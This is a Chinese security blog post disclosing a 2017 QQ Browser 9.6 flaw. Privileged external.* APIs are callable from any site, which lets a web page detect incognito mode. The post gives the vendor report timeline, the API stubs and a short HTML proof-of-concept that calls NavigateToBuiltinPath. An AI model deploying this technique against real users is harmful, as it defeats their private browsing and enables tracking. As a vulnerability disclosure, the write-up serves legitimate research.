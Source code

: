 ```yaml
---
layout: post
title: QQ Browser 9.6 API 权限控制问题导致泄露隐私模式
---
```


- 2017-05-12 17:31:17	用户“evi1m0”报告了该漏洞。
- 2017-05-12 17:36:15	管理员san@TSRC 跟进了该漏洞报告
- 2017-05-15 17:29:10	管理员Jim@TSRC 跟进了该漏洞报告
- 2017-05-17 10:40:22	管理员 Jim@TSRC 结束了该漏洞（暂未发现安全危害）

啥时候国内厂商审 Client 洞能没问题了，也就算真上道儿了。

#### external

多个 external API 在任意域都可执行，导致我们可以寻找较好利用的点进行漏洞攻击：

	external.NavigateToExtension = function (arg1) {
	    native
	    function DoNavigateToExtension();
	    return DoNavigateToExtension(arg1);
	};
	external.NavigateToExtensionPath = function (arg1, arg2) {
	    native
	    function DoNavigateToExtensionPath();
	    return DoNavigateToExtensionPath(arg1, arg2);
	};
	external.SendBannerMessage = function (arg1, arg2, arg3, arg4) {
	    native
	    function DoSendBannerMessage();
	    return DoSendBannerMessage(arg1, arg2, arg3, arg4);
	};
	external.NavigateToBuiltinPath = function (arg1, arg2) {
	    native
	    function NavigateToBuiltinPath();
	    return NavigateToBuiltinPath(arg1, arg2);
	};
	external.ShowActionBanner = function (arg1, arg2, arg3) {
	    native
	    function DoShowActionBanner();
	    return DoShowActionBanner(arg1, arg2, arg3);
	};

这里我们来分析 external.NavigateToBuiltinPath 通过测试可以发现第一个参数接收网址，第二个参数接收打开窗口模式，由于权限控制不严谨导致我们可以在任意域执行此 API ，例如：

- url, 2 // 当前页面打开 browser://url
- url, 4 // 新页面打开 browser://url
- ...

注意应用层本来是不能开启或控制特权域页面的，不过也正由于这个“特性”  (int)"qb::ExternalExtensionMessageFilter::OnNavigateToBuiltinPath" 的限制，我们只能存活跳转在 qqbrowser 域中：

![](https://ws1.sinaimg.cn/large/c334041bgy1ffob7duy1qj21060kswi1.jpg)

不过既然我们能够在任意域执行 API  ，跳转不出去也没有关系，利用之前的特性分析[ref: [https://www.n0tr00t.com/2017/01/19/Chromium-incognito-mode-track.html](https://www.n0tr00t.com/2017/01/19/Chromium-incognito-mode-track.html)] ，QQbrowser 使用 Chromium 内核自然通用，这次我们不需要特权域的跨站也可探测当前是否处于隐私模式中了。

> 这个点应该玩法还有很多，不过这里我仅限演示证明了之前研究的实用技巧性 xD

#### PoC

view-source:http://server.n0tr00t.com/qqbrowser/checkIncMode.html

	<html>
	  <head>
	    <meta charset="utf8">
	    <title>QQ Brwoser 9.6 incognito mode track - @evi1m0</title>
	  </head>
	  <body>
	    <script>
	      if (navigator.userAgent.indexOf('QQBrowser') !== -1) {} else {
	         document.body.innerHTML = 'Pls use QQBrowser :(';
	      }
	
	      // Ref: https://www.n0tr00t.com/2017/01/19/Chromium-incognito-mode-track.html
	      external.NavigateToBuiltinPath("/settings", 2);
	      setTimeout('alert("Catch you!")', 2000);
	    </script>
	  </body>
	</html>

![](https://ws1.sinaimg.cn/large/c334041bgy1ffobac6mayj21oc18kn4n.jpg)